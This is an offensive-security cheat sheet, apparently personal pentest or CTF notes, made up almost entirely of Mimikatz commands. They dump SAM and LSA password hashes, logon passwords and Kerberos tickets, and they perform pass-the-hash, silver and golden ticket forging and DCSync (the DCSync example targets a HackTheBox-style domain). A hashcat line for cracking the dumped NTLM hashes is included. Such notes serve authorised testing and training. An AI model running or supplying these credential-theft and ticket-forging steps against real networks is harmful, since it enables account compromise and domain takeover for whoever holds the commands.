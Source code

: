 # Dumping with Mimikatz

## Mimikatz

Post exploitation commands must be executed from SYSTEM level privileges.

* mimikatz # privilege::debug
* mimikatz # token::whoami
* mimikatz # token::elevate
* mimikatz # lsadump::sam
* mimikatz # sekurlsa::logonpasswords

### Pass The Hash

* mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm\_hash

### Inject generated TGS key

* mimikatz # kerberos::ptt&#x20;

### Generating a Silver Ticket

AES 256 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes256: /user: /service: /target:

AES 128 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes128: /user: /service: /target:

NTLM:

* mimikatz # kerberos::golden /domain:/sid: /rc4: /user: /service: /target:

### Generating a Golden Ticket

AES 256 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes256: /user:

AES 128 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes128: /user:

NTLM:

* mimikatz # kerberos::golden /domain:/sid: /rc4: /user:

### DCSync

DCSync with mimikatz:

```bash
lsadump::dcsync /user:administrator /domain:htb.local /dc:sizzle
```

### Service Tickets

> Other hash dumping tools: `pwdump`,[`fgdump`](http://foofus.net/goons/fizzgig/fgdump/downloads.htm),[**Windows Credential Editor**](https://www.ampliasecurity.com/research/windows-credentials-editor/) (`wce`) for older versions of Windows

* ask for **SeDebugPrivilege** in order to interact with the LSASS process and processes owned by other accounts (to be executed as administrator):

```
mimikatz # privilege::debug
Privilege '20' OK
```

* elevate the security token from high integrity (administrator) to SYSTEM integrity (not needed if `mimikatz` is launched from a SYSTEM shell)

```
mimikatz # token::elevate
```

* dumping all password hashes:

```
mimikatz # lsadump::sam
```

* dumping NTLM password hashes:

```
mimikatz # lsadump::lsa /patch
```

* Cracking them with `hashcat` (or [Pass-The-Hash](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#%EF%B8%8F-post-exploitation-pivoting-and-lateral-movement) directly): `hashcat -m 1000 ntlm-hashes.txt <WORDLIST>`
* dumping the credentials of all logged-on users:

```
mimikatz # sekurlsa::logonpasswords
```

* dumping all service tickets of all logged-on users:

```
mimikatz # sekurlsa::tickets
```

* download service ticket:

```
mimikatz # kerberos::list /export
```
